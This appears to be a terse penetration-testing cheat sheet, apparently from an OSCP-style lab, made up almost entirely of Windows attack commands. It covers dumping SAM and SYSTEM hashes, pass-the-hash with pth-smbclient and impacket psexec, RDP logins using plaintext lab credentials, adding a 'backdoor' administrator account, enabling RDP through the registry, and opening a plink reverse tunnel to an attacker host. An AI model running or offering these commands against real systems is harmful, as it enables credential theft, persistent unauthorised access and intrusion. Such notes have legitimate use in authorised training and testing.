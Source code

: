 reg save hklm\sam c:\sam
reg save hklm\system c:\system

samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c0e2874fb130015aec4070975e2c6071:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:d0c0896b73e0d1316aeccf93159d7ec0:::

fgdump.exe

pth-smbclient -p 4445 -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //127.0.0.1/c$


copied psexec.py to local folder and updated default port to the forwarded port.

python3 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@127.0.0.1 cmd.exe

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD -r disk:share=<path>

rdesktop 192.168.XXX.XX -u OFFSEC\\Allison -p <PASSWORD> -r disk:share=/tmp

xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u cfsnspk03 10.129.3.4

xfreerdp /u:cfsnspk03 /v:10.129.3.4 /cert-ignore

xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

python /usr/share/doc/python3-impacket/examples/psexec.py alice:ThisIsTheUsersPassword01@10.11.1.20

### adding yes answer to plink.exe command
cmd.exe /c echo y | C:\Tools\port_redirection_and_tunneling\plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

##### Powershell

Set-ExecutionPolicy Unrestricted -Scope CurrentUser

